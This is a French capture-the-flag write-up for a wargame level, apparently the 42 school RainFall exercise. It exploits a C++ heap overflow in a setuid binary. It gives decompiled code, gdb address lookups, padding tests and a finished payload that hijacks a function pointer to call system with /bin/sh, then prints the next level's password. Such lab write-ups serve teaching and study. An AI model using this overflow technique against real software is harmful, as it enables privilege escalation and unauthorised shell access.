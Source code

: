 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```
$ id && pwd && ls -la
uid=2009(level9) gid=2009(level9) groups=2009(level9),100(users)
/home/user/level9
total 17
dr-xr-x---+ 1 level9 level9   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level9 level9  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level9 level9 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus0 users  6720 Mar  6  2016 level9
-rw-r--r--+ 1 level9 level9   65 Sep 23  2015 .pass
-rw-r--r--  1 level9 level9  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire level9 :

```
$ ./level9
$
```

Je tente avec un input :

```
$ ./level9 da
$
```

Bon, et bien, direction [Dogbolt](https://dogbolt.org/?id=563ef243-714b-4c51-a5a5-ecc13358fab5) :

### Ghidra

```c
void main(int param_1,int param_2) {
  N *this;
  undefined4 *this_00;
  
  if (param_1 < 2) {
                    // WARNING: Subroutine does not return
    _exit(1);
  }
  this = (N *)operator_new(0x6c);
  N::N(this,5);
  this_00 = (undefined4 *)operator_new(0x6c);
  N::N((N *)this_00,6);
  N::setAnnotation(this,*(char **)(param_2 + 4));
  (**(code **)*this_00)(this_00,this);
  return;
}
```

### Hexray

```c
void N::N(N *this, int a2);
void *N::setAnnotation(N *this, char *s);
int N::operator+(int a1, int a2);
int N::operator-(int a1, int a2);

void N::N(N *this, int a2) {
  *(_DWORD *)this = off_8048848;
  *((_DWORD *)this + 26) = a2;
}

void * N::setAnnotation(N *this, char *s) {
  size_t v2;

  v2 = strlen(s);
  return memcpy((char *)this + 4, s, v2);
}

int N::operator+(int a1, int a2) {
  return *(_DWORD *)(a1 + 104) + *(_DWORD *)(a2 + 104);
}

int N::operator-(int a1, int a2) {
  return *(_DWORD *)(a1 + 104) - *(_DWORD *)(a2 + 104);
}

int main(int argc, const char **argv, const char **envp) {
  N *v3; // ebx
  N *v4; // ebx
  N *v6; // [esp+1Ch] [ebp-8h]

  if ( argc <= 1 )
    _exit(1);
  v3 = (N *)operator new(0x6Cu);
  N::N(v3, 5);
  v6 = v3;
  v4 = (N *)operator new(0x6Cu);
  N::N(v4, 6);
  N::setAnnotation(v6, (char *)argv[1]);
  return (**(int ( ***)(N *, N *))v4)(v4, v6);
}
```

Oh... Il semble qu'on ai à faire à du `C++` ici.

A priori, pas d'appel à `bin/sh` dans le code, il va donc me falloir utiliser l'une des méthodes des premiers niveaux, notamment celle d'exécution arbitraire de fonction dans la `libc`, si `C++` me le permet.

Je tente d'abord de reconsister un fichier source en `.cpp` à partir des décompilations :

```c++
#include <unistd.h>
#include <cstring>

class N {
public:
	int num;
	int (N::*func)(N &);
	char annotation[100]; // <- v6 est initialisé par Hexray avec new(0x6C) => 108 bytes, mais à ebp-8

	N(int value) : num(value) {
		this->func = &N::operator+;
	}
	int operator+(N &some) {
		return this->num + some.num;
	}
	int operator-(N &some) {
		return this->num - some.num;
	}
	void setAnnotation(char *input) {
		memcpy(this->annotation, input, strlen(input));
	}
};

int		main(int argc, char **argv)
{
	if (argc < 1)
		_exit(1);

	N *n1 = new N(5);
	N *n2 = new N(6);

	n1->setAnnotation(argv[1]);
	return (n2->*(n2->func))(*n1);
}
```

Cette reconstitution s'appuie principalement sur la décompilation par `Hexray` en unifiant l'ensemble dans une `class` nommée `N`.

La seule vulnérabilité que j'observe dans cette reconstitution serait `memcpy()`. Ici, `memcpy()` ne s'assure pas que l'annotation passée par `argv[1]` rentre dans le buffer de `100` déclaré par la structure N lorsqu'elle utilise `setAnnotation()`.

Il serait donc possible ici alors de ré-écrire la valeur de retour de la fonction `setAnnotation()` afin qu'elle pointe, à la manière du `level2`, sur un appel arbitraire à `system()`, auquel nous pourrons demander d'exécuter `bin/sh`.

Je cherche d'abord l'adresse de `system()` avec `gdb` ([merci StackOverflow](https://security.stackexchange.com/questions/195246/how-to-find-address-of-system-in-an-executable-rop-exploit)):

```
$ gdb ./level9
(gdb) disas main
    ...
   0x08048695 <+161>:   mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:   leave
   0x08048699 <+165>:   ret

(gdb) break *main+165
Breakpoint 1 at 0x8048699

(gdb) set args dab
(gdb) r
Starting program: /home/user/level9/level9 dab

Breakpoint 1, 0x08048699 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

Je détermine ensuite le padding nécessaire pour l'overflow :

```
$ ./level9 `python -c 'print("\x90" * 100)'`
$ ./level9 `python -c 'print("\x90" * 200)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 150)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 125)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 110)'`
Segmentation fault (core dumped)
$ ./level9 `python -c 'print("\x90" * 105)'`
$ ./level9 `python -c 'print("\x90" * 108)'`
$ ./level9 `python -c 'print("\x90" * 109)'`
Segmentation fault (core dumped)
```

En rétrospecte, je comprend pourquoi je trouve que l'overflow est à 108 bytes : plus haut, j'ai déterminé que le buffer `annotation` était de 100 bytes, et qu'`Hexray` le placait à `ebp-8`, mais aussi, et plus spécifiquement, qu'il était déclaré ici : `v3 = (N *)operator new(0x6Cu);` à 108 bytes.

Cela corrèle donc avec le segfault observé au 109ème `NOP` passé dans les test ci-dessus.

Il me faut donc trouver quelle est l'adresse qui correspond au début de mon payload infecté lorsqu'il est utilisé par `setAnnotation()`, si la première adresse de l'overflow pointe vers le début du payload, alors le programme exécutera ensuite le payload, et donc `system()` auquel je pourrais passer `bin/sh` comme argument.

Je me penche sur `gdb` pour trouver l'adresse du début de l'array `annotation`.
Je peux trouver l'adresse de `annotation` en inférant que `%eax` la contiendra au retour de `setAnnotation()` car `memcpy()`[retourne son premier argument](https://pubs.opengroup.org/onlinepubs/7908799/xsh/memcpy.html), et il sera donc stocké dans `%eax`.

Je peux lancer le binaire, mettre un break au retour de `setAnnotation()`, puis analyser la valeur de `%eax` :

```
(gdb) b *main+136
Breakpoint 1 at 0x804867c
(gdb) set args dab
(gdb) r
Starting program: /home/user/level9/level9 dab

Breakpoint 1, 0x0804867c in main ()
(gdb) info registers
eax            0x804a00c        134520844
ecx            0x6164   24932
edx            0x804a00f        134520847
ebx            0x804a078        134520952
...
```

Je trouve donc l'adresse : `0x804a00c`.

Avec ces 3 informations :

- Adresse de `system()` -> 0xb7d86060
- Overflow à 108 bytes
- Adresse de `annotation` -> 0x804a00c

Je peux créer un payload infecté :

```python
#                |    system()    |         | NOP|         | annotation[0]  |         | system(args) |    
python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"'
```

Ce payload aura pour effet d'overflow après le padding de 104 bytes (108 - l'adresse de `system()`), trouvera une adresse qui pointe sur le début d'`annotation`, ce qui exécutera le début de `annotation`, et donc `system()`, qui prendra comme argument le `NOP sled` (le padding), l'adresse qui pointait vers `annotation`, puis pour ignorer le 'bruit' précédent, passera `;bin/sh` avec un ';' afin que l'instruction précédente soit simplement un échec et que le shell soit ensuite exécuté.

Je teste mon payload :

```
$ ./level9 $(python -c 'print "\xb7\xd8\x60\x60"[::-1] + "\x90" * 104 + "\x08\x04\xa0\x0c"[::-1] + ";/bin/sh"')
sh: 1:
       : not found
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```







